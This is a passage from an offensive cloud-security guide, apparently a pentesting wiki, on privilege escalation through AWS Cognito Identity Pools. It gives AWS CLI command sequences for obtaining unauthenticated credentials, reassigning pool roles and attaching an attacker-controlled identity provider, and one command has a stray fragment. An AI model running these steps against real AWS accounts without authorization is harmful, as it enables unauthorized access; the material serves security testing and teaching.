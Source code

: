 {% content-ref url="../aws-services/aws-cognito-enum/" %}
[aws-cognito-enum](../aws-services/aws-cognito-enum/)
{% endcontent-ref %}

### Gathering credentials from Identity Pool

As Cognito can grant **IAM role credentials** to both **authenticated** an **unauthenticated** **users**, if you locate the **Identity Pool ID** of an application (should be hardcoded on it) you can obtain new credentials and therefore privesc (inside an AWS account where you probably didn't even have any credential previously).

For more information [**check this page**](../aws-unauthenticated-enum-access/#cognito).

**Potential Impact:** Direct privesc to the services role attached to unauth users (and probably to the one attached to auth users).

### `cognito-identity:SetIdentityPoolRoles`, `iam:PassRole`

With this permission you can **grant any cognito role** to the authenticated/unauthenticated users of the cognito app.

```bash
aws cognito-identity set-identity-pool-roles \
    --identity-pool-id <identity_pool_id> \
    --roles unauthenticated=<role ARN>

# Get credentials
## Get one ID
aws cognito-identity get-id --identity-pool-id "eu-west-2:38b294756-2578-8246-9074-5367fc9f5367"
## Get creds for that id
aws cognito-identity get-credentials-for-identity --identity-id "eu-west-2:195f9c73-4789-4bb4-4376-99819b6928374" ole
```

If the cognito app **doesn't have unauthenticated users enabled** you might need also the permission `cognito-identity:UpdateIdentityPool` to enable it.

**Potential Impact:** Direct privesc to any cognito role.

### `cognito-identity:update-identity-pool`

An attacker with this permission could set for example a Cognito User Pool under his control or any other identity provider where he can login as a **way to access this Cognito Identity Pool**. Then, just **login** on that user provider will **allow him to access the configured authenticated role in the Identity Pool**.

```bash
# This example is using a Cognito User Pool as identity provider
## but you could use any other identity provider
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    [--allow-unauthenticated-identities | --no-allow-unauthenticated-identities] \
    --cognito-identity-providers ProviderName=user-pool-id,ClientId=client-id,ServerSideTokenCheck=false

# Now you need to login to the User Pool you have configured
## after having the id token of the login continue with the following commands:

# In this step you should have already an ID Token
aws cognito-identity get-id \
    --identity-pool-id <id_pool_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Get the identity_id from thr previous commnad response
aws cognito-identity get-credentials-for-identity \
    --identity-id <identity_id> \
```